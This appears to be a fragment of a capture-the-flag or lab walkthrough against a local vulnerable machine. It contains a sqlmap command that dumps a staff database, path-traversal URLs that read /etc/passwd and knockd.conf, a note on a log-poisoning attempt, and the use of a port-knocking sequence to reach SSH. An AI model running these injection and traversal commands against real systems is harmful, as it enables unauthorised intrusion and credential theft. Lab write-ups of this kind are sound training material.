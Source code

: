 ```
+----+------------+---------------+---------------------+-----------+-----------+


```

other DB 

```bash
$ sqlmap -u " http://192.168.1.7/results.php " --method POST --data="search=" -p search --dbms=mysql -D Staff -T StaffDetails --dump
```

interesting result :

[+]potential username 
```
 Fred      | Systems Administrator  |

```

# exploitation :

when logged in with admin as we 've got the password from database

![Pasted image 20210910065124](https://user-images.githubusercontent.com/67979878/132949063-d58bf3ae-7d99-48a0-b4d0-446ee79299be.png)


> file not exist .. then a file has been requested  

`http://192.168.1.7/manage.php?file=../../../../../../../etc/passwd`

![Pasted image 20210910065445](https://user-images.githubusercontent.com/67979878/132949070-52c6aa87-0f63-4a2d-91f5-f6be35d3a096.png)

so we have LFI try to :

```
- inject php in useragent and execute it by lfi the access.log file
```
failed .


there is another problem that only http is open we need ssh . reading about *port knocking* :

`http://192.168.1.7/manage.php?file=../../../../../../../etc/knockd.conf`

![Pasted image 20210910070850](https://user-images.githubusercontent.com/67979878/132949085-af10178c-1c46-4ce8-9754-b7f6a40bab60.png)

so we have `sequence = 7469,8475,9842 ` , if we knock on these ports we will open the ssh 

![Pasted image 20210910071119](https://user-images.githubusercontent.com/67979878/132949087-101d8681-ce83-4694-9615-eb43f9b00a25.png)

now we can use ssh and login !

`` 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred ``

when i try it was a wrong password.

![Pasted image 20210910071618](https://user-images.githubusercontent.com/67979878/132949106-34636182-11dc-4780-af66-85196dc59e6b.png)
